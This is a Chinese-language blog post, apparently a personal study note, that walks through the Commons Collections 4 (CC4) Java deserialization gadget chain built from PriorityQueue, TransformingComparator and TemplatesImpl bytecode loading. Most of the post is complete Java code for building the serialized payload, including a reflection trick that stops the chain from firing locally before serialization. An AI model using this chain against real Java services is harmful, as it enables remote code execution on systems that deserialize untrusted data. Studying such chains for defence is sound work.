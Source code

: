 ```yaml
---
title: JAVA安全:CC4链
---
```


*作者：Narcher*	*时间：2024/3/19*	*分类：Vulnerability Analysis*

<!--more-->

## 前言

经过前几条链子的学习积累，CC4的学习可以说是轻松了很多。CC4这条链子和前边的不同之处在于commons-collections由原先的大版本3改成了大版本4，也就是说作用范围不同。

本质上来看，CC4和之前CC3的区别在于更改了前边的触发方式，由AnnotationInvocationHandler的readObject->Proxy->AnnotationInvocationHandler的invoke->LazyMap的get+一系列transform变为了PriorityQueue的readObject->PriorityQueue的heapify->PriorityQueue的siftDown->PriorityQueue的siftDownUsingComparator->TransformingComparator的compare+一系列transform。实际上还是换汤不换药，我们直接进入正文。



## 正文

先来看一下ysoserial中的链子构造：

<img src="JAVA%E5%AE%89%E5%85%A8CC4%E9%93%BE/1710838691307.png" alt="1710838691307" style="zoom: 50%;" />

知道了大致思路，我们就自己来从头写一遍。

### 1.TransformingComparator部分

思路先捋一捋，我们在commons-collections4中，原先的CC3链子在ChainedTransformer之后就断掉了，因此我们要找一个能够触发transform方法的类作为LazyMap的替代，于是便找到了TransformingComparator：

<img src="JAVA%E5%AE%89%E5%85%A8CC4%E9%93%BE/1710839517506.png" alt="1710839517506" style="zoom:67%;" />

可见TransformingComparator的compare方法调用了transform方法，我们接下来只需要确保构造时传入构造好的chainedTransformer就好了，至于compare的参数并不是有用的，因为我们的ConstantTransformer太强了。

之后便是寻找调用compare方法的类，这里CC4作者直接用了内部类。

### 2.PriorityQueue部分

<img src="JAVA%E5%AE%89%E5%85%A8CC4%E9%93%BE/1710839688530.png" alt="1710839688530" style="zoom:67%;" />

可见PriorityQueue的siftDownUsingComparator调用了compare方法，我们再往上找，找到了PriorityQueue的siftDown方法：

<img src="JAVA%E5%AE%89%E5%85%A8CC4%E9%93%BE/1710839784057.png" alt="1710839784057" style="zoom:67%;" />

接着往上找，找到PriorityQueue的heapify方法：

<img src="JAVA%E5%AE%89%E5%85%A8CC4%E9%93%BE/1710839822026.png" alt="1710839822026" style="zoom:67%;" />

再往上找，就找到了PriorityQueue的readObject方法了：

<img src="JAVA%E5%AE%89%E5%85%A8CC4%E9%93%BE/1710839872332.png" alt="1710839872332" style="zoom:67%;" />

实际上，这样子就基本上大功告成了，我们来构造链子。

### 3.构造链

#### 3.1 拼接

至于CC3的后半部分，我就全拿过来了：

```java
TemplatesImpl templates = new TemplatesImpl();
Class tc = templates.getClass();
Field nameField = tc.getDeclaredField("_name");
nameField.setAccessible(true);
nameField.set(templates,"aaaa");
Field bytecodesField = tc.getDeclaredField("_bytecodes");
bytecodesField.setAccessible(true);
byte[] code = Files.readAllBytes(Paths.get("C://Users//Narcher//IdeaProjects//CC3_test.class"));
byte[][] codes = {code};
bytecodesField.set(templates,codes);
Field tfactoryField = tc.getDeclaredField("_tfactory");
tfactoryField.setAccessible(true);
tfactoryField.set(templates, new TransformerFactoryImpl());
// templates.newTransformer();
Transformer[] transformers=new Transformer[]{
        new ConstantTransformer(TrAXFilter.class),
        new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
};
ChainedTransformer chainedTransformer= new ChainedTransformer(transformers);
```

CC3_test.class还是一样的。

剩下的先用TransformingComparator接住chainedTransformer：

```java
TransformingComparator transformingComparator = new TransformingComparator<>(chainedTransformer);
```

再用PriorityQueue接住transformingComparator：

```java
PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
```

嗯，最后序列化和反序列化就应该好了：

```java
TemplatesImpl templates = new TemplatesImpl();
Class tc = templates.getClass();
Field nameField = tc.getDeclaredField("_name");
nameField.setAccessible(true);
nameField.set(templates,"aaaa");
Field bytecodesField = tc.getDeclaredField("_bytecodes");
bytecodesField.setAccessible(true);
byte[] code = Files.readAllBytes(Paths.get("C://Users//Narcher//IdeaProjects//CC3_test.class"));
byte[][] codes = {code};
bytecodesField.set(templates,codes);
Field tfactoryField = tc.getDeclaredField("_tfactory");
tfactoryField.setAccessible(true);
tfactoryField.set(templates, new TransformerFactoryImpl());
// templates.newTransformer();
Transformer[] transformers=new Transformer[]{
        new ConstantTransformer(TrAXFilter.class),
        new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
};
ChainedTransformer chainedTransformer= new ChainedTransformer(transformers);
TransformingComparator transformingComparator = new TransformingComparator<>(chainedTransformer);
PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
//序列化
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("C:\\Users\\Narcher\\IdeaProjects\\CC3.txt"));
oos.writeObject(priorityQueue);
//反序列化
ObjectInputStream ois = new ObjectInputStream(new FileInputStream("C:\\Users\\Narcher\\IdeaProjects\\CC3.txt"));
ois.readObject();
```

#### 3.2 问题

结果无事发生，肯定是中间某一部分出错了，我们就在PriorityQueue的readObject打个断点调试一下看看问题所在：

<img src="JAVA%E5%AE%89%E5%85%A8CC4%E9%93%BE/1710840541721.png" alt="1710840541721" style="zoom:67%;" />

可以看到这个size为0，传入之后不会通过for循环触发接下来的方法，那我们就需要给这个数组加点元素，让它右移一位仍旧大于0，很简单，直接传两个数，让它size为2就行了：

```java
priorityQueue.add(1);
priorityQueue.add(2);
```

结果发现在序列化之前就已经弹出计算器了，说明前边的代码有调用整条链子的方法。实际上这里是add方法，我们进去看一下：

<img src="JAVA%E5%AE%89%E5%85%A8CC4%E9%93%BE/1710841319897.png" alt="1710841319897" style="zoom: 50%;" />

<img src="JAVA%E5%AE%89%E5%85%A8CC4%E9%93%BE/1710841377176.png" alt="1710841377176" style="zoom:67%;" />

<img src="JAVA%E5%AE%89%E5%85%A8CC4%E9%93%BE/1710841414672.png" alt="1710841414672" style="zoom:50%;" />

可见这一套流程下来也会触发compare方法，我们不想让它本地执行也很简单，直接在给transformingComparator赋值的时候随便给一个值，之后在序列化之前给它改回chainedTransformer就好了。

#### 3.3 完工

最终完整链子如下：

```java
TemplatesImpl templates = new TemplatesImpl();
Class tc = templates.getClass();
Field nameField = tc.getDeclaredField("_name");
nameField.setAccessible(true);
nameField.set(templates,"aaaa");
Field bytecodesField = tc.getDeclaredField("_bytecodes");
bytecodesField.setAccessible(true);
byte[] code = Files.readAllBytes(Paths.get("C://Users//Narcher//IdeaProjects//CC3_test.class"));
byte[][] codes = {code};
bytecodesField.set(templates,codes);
Field tfactoryField = tc.getDeclaredField("_tfactory");
tfactoryField.setAccessible(true);
tfactoryField.set(templates, new TransformerFactoryImpl());
// templates.newTransformer();
Transformer[] transformers=new Transformer[]{
        new ConstantTransformer(TrAXFilter.class),
        new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
};
ChainedTransformer chainedTransformer= new ChainedTransformer(transformers);
TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1));
PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
priorityQueue.add(1);
priorityQueue.add(2);
Class c = transformingComparator.getClass();
Field transformerField = c.getDeclaredField("transformer");
transformerField.setAccessible(true);
transformerField.set(transformingComparator, chainedTransformer);
//序列化
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("C:\\Users\\Narcher\\IdeaProjects\\CC4.txt"));
oos.writeObject(priorityQueue);
//反序列化
ObjectInputStream ois = new ObjectInputStream(new FileInputStream("C:\\Users\\Narcher\\IdeaProjects\\CC4.txt"));
ois.readObject();
```

